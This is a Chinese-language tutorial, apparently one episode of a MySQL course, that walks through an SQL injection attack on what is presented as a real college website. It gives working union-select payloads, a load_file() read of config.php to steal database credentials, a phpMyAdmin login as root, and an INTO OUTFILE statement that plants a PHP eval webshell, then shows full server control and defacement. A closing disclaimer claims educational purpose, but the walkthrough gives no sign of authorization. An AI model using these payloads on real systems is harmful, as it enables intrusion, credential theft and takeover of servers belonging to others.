








# 🛡️ MySQL实战案例教程 - 第13期：SQL注入漏洞利用入门

在本教程中，我们将通过一个实战案例，学习如何发现并利用一个网站的SQL注入漏洞，最终获取网站管理员权限。整个过程将涵盖信息搜集、漏洞探测、手工注入、数据提取以及Webshell上传等关键步骤。

---

## 🌐 目标网站初步侦察

上一节我们介绍了本课程的目标，本节中我们来看看如何对目标网站进行初步侦察。

我们首先访问目标网站，并观察其页面结构。网站导航栏包含多个动态模块和链接。

我们点击一则“学院动态”新闻，发现URL地址栏发生变化，显示为 `?id=70` 的参数形式。

尝试移除 `?id=70` 参数后访问，页面返回错误信息。错误信息暴露了网站物理路径：`D:\AppServ\www\includes\global.func.php`。

这个错误信息表明两点：
1.  网站存在报错信息回显。
2.  这可能意味着网站存在SQL注入漏洞。

我们尝试修改ID参数的值，例如将 `id=70` 改为 `id=69`，页面成功显示了另一篇文章。这说明ID参数可控，并且网站会根据此参数从数据库查询并回显内容。

---

## 🔍 寻找稳定的注入点

上一节我们发现ID参数存在交互，本节中我们来看看如何找到一个更稳定的注入点进行测试。

我们注意到“学院简介”页面（URL类似 `?id=2`）行为不同。移除其ID参数后，页面显示为空白而非报错，这表明该页面的代码容错性更好，更适合作为注入测试点。

我们确认“学院简介”页面（`id=2`）能正常显示内容，`id=1`、`id=3`、`id=4` 也分别对应不同页面内容。这进一步证实该参数用于从数据库查询数据。

---

## 🧪 手工注入漏洞验证

找到了潜在的注入点后，本节中我们来看看如何手工验证SQL注入漏洞是否存在。

我们使用浏览器插件（如HackBar）来辅助测试。在参数后添加一个单引号 `'`，页面显示异常。

接着，我们提交一个永真条件 `and 1=1`，页面显示正常。然后提交一个永假条件 `and 1=2`，页面显示异常或内容缺失。

这种回显差异是判断SQL注入漏洞存在的经典依据。公式表示为：
*   永真条件：`[目标URL]?id=2 and 1=1` -> 页面正常
*   永假条件：`[目标URL]?id=2 and 1=2` -> 页面异常

---

## 📊 判断字段数与回显点

确认存在注入漏洞后，本节中我们来看看如何判断SQL查询的字段数量以及页面上的数据回显位置。

我们使用 `order by` 语句配合二分法来猜测查询的字段数。例如：
*   `order by 20` -> 错误
*   `order by 10` -> 错误
*   `order by 5` -> 正常
*   `order by 7` -> 正常
*   `order by 8` -> 错误

最终确定字段数为 **7**。

接着，使用联合查询 `union select` 来定位页面上哪些位置可以回显我们注入的数据。我们提交：
`union select 1,2,3,4,5,6,7`

观察页面，发现数字 **2**、**3**、**4** 在页面中显示出来，这意味着这些位置可以用来回显数据库查询结果。

---

## 🗃️ 利用注入获取数据库信息

现在我们可以控制回显内容了，本节中我们来看看如何利用注入点提取关键的数据库信息。

我们将回显点（例如位置4）替换为数据库函数，以获取信息：
*   查询当前数据库用户：`union select 1,2,3,user(),5,6,7`
    *   回显显示用户为 `root@localhost`，这是MySQL的最高权限用户。
*   查询数据库版本：`union select 1,2,3,version(),5,6,7`

---

## 📁 读取网站配置文件

获取基础信息后，本节中我们来看看如何利用数据库的`load_file()`函数读取服务器上的文件。

首先，我们需要网站的绝对路径。之前报错信息已泄露部分路径。通过搜索引擎使用 `site:目标域名` 语法，可以进一步发现网站根目录为 `D:\AppServ\www\`。

我们构造语句读取网站配置文件。由于路径中包含反斜杠，我们将其转换为十六进制格式。例如，路径 `D:\AppServ\www\config.php` 转换后为 `0x443A5C417070536572765C7777775C636F6E6669672E706870`。





利用注入执行文件读取：
`union select 1,2,3,load_file(0x443A...706870),5,6,7`


在页面源代码中，我们可以看到被读取的`config.php`文件内容，其中包含数据库连接信息：
```php
$dbuser = 'root';
$dbpwd = '数据库密码'; // 此处为实际密码
```



---



## 🚪 进入数据库管理后台




掌握了数据库账号密码后，本节中我们来看看如何尝试登录数据库的Web管理界面。

常见的MySQL Web管理工具是phpMyAdmin。我们尝试访问 `http://目标网站/phpmyadmin/`，成功打开登录页面。

使用之前获取的 `root` 账号和密码登录，成功进入phpMyAdmin管理后台。

---

## ⚔️ 上传Webshell获取控制权





成功进入后台并拥有root权限后，本节中我们来看看如何利用SQL语句向服务器写入Webshell（网页木马）。

在phpMyAdmin的SQL执行窗口中，我们执行以下语句：
```sql
SELECT '<?php @eval($_POST["cmd"]);?>' INTO OUTFILE 'D:/AppServ/www/shell.php'
```
这条语句的作用是，将一句PHP代码写入到网站根目录下的 `shell.php` 文件中。这段代码就是一个“一句话木马”。

执行成功后，我们访问 `http://目标网站/shell.php`，文件存在。

接下来，使用“中国菜刀”或“蚁剑”等Webshell管理工具连接这个地址。
*   连接URL：`http://目标网站/shell.php`
*   连接密码：`cmd`（即POST参数名）

连接成功后，我们便可以通过这个工具浏览服务器上的所有文件、创建、删除、修改文件，完全控制了网站服务器。

例如，在网站根目录创建一个 `hacked.txt` 文件，内容为“Hacked by [你的名字]”，以此证明权限已获取。

---

## 📝 课程总结

在本节课中，我们一起学习了一个完整的SQL注入漏洞利用流程：



1.  **信息搜集与探测**：观察URL参数，寻找可能存在注入的交互点。
2.  **漏洞验证**：通过添加单引号、永真/永假条件判断注入是否存在。
3.  **信息获取**：判断字段数、寻找回显点，并利用联合查询获取数据库用户、版本等信息。
4.  **提权与拓展**：利用`load_file()`函数读取服务器敏感文件（如配置文件），获取数据库账号密码。
5.  **后台登录**：尝试登录phpMyAdmin等数据库管理后台。
6.  **写入Webshell**：利用数据库的`INTO OUTFILE`功能，将恶意PHP代码写入网站目录，从而获得服务器控制权。

**重要声明**：本教程仅用于网络安全教育学习，旨在帮助大家理解漏洞原理并提升防护意识。所有技术操作必须在合法授权和合规的环境下进行，严禁用于任何非法入侵和攻击活动。